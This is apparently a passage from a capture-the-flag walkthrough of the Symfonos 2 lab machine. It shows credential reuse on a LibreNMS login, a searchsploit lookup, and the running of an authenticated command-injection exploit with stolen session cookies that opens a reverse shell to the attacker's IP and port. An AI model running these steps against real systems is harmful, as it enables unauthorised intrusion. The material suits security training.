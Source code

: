 Using the web browser I explore the service and come across a login page, I try to log in with the same credentials that I used when I logged into the ssh service.

**username:** aeolus
**password:** sergioteamo

![](/assets/images/symfonos2/screenshot-1.png)

![](/assets/images/symfonos2/screenshot-2.png)

After logging into the web page I found a vulnerability for this version of **LibreNMS**, a Remote Code Execution.

```console
root@kali:~$ searchsploit librenms
----------------------------------------------------------------------------------------- -----------------------------
 Exploit Title                                                                           |  Path
----------------------------------------------------------------------------------------- -----------------------------
LibreNMS - addhost Command Injection (Metasploit)                                        | linux/remote/46970.rb
LibreNMS - Collectd Command Injection (Metasploit)                                       | linux/remote/47375.rb
LibreNMS 1.46 - 'addhost' Remote Code Execution                                          | php/webapps/47044.py
LibreNMS 1.46 - 'search' SQL Injection                                                   | multiple/webapps/48453.txt
LibreNMS 1.46 - MAC Accounting Graph Authenticated SQL Injection                         | multiple/webapps/49246.py
----------------------------------------------------------------------------------------- -----------------------------
```

Then I copy the python exploit to my current directory.

```console
root@kali:~$ searchsploit -m php/webapps/47044.py
```

## Privilege Escalation
### Command Injection

To execute this exploit we need the cookie value, so we intercept the request with burpsuite ones we have logged in, as shown below:

![](/assets/images/symfonos2/screenshot-3.png)

Then we set up a netcat listener, we run the exploit and get a reverse shell with the cronos user privileges.

```console
root@kali:~$ python 47044.py http://127.0.0.1:4444 "XSRF-TOKEN=eyJpdiI6Im5qelNNcTM4MzdFUGIwRENITXl6WFE9PSIsInZhbHVlIjoic2p5Ynd0Z3dFYnI0aHF3RW9EZkRSZjZVcktjRFRGK3BCRzZWK1hmcEFBVDcrN3VXa29QQkxBQ2EwSlhnR3gyc0krR3hMMDVNbHFramdYQ0VqTTErOFE9PSIsIm1hYyI6ImNkNjA3MTdjZjlhNjVjZDBhYzViMGVjNDUyOWQwYTM5ODFjZTM1NzY0YWNkYzhmNzcxYjdiNTZhYmI3ZTYxMWIifQ%3D%3D; librenms_session=eyJpdiI6IlFTa0FXbEk4bEFGUmk4QVJieURjNFE9PSIsInZhbHVlIjoiXC9tYk9xYWtNUkx4eXdHRldKOWdqdGFQNms5WVwvOFdiUzhYVTJPajNoQ2poZzVtVW1QaE8yQkQwYXpESWYrY0hhVDNnS29DZVlHcGc4SHczbXlCa3NSUT09IiwibWFjIjoiODQ0ZTM5YWMyOGJhMDhhOWRhNTQ1MjQyNmZlY2Y4N2EzNWViNGNmZmM5NWZlZTlmZTg2NDBmNDVhZTI5MWVkMCJ9; PHPSESSID=l1gcq7e0u3q4bt5qm79b6n2b92" 192.168.179.1 1337  
[+] Device Created Sucssfully
```
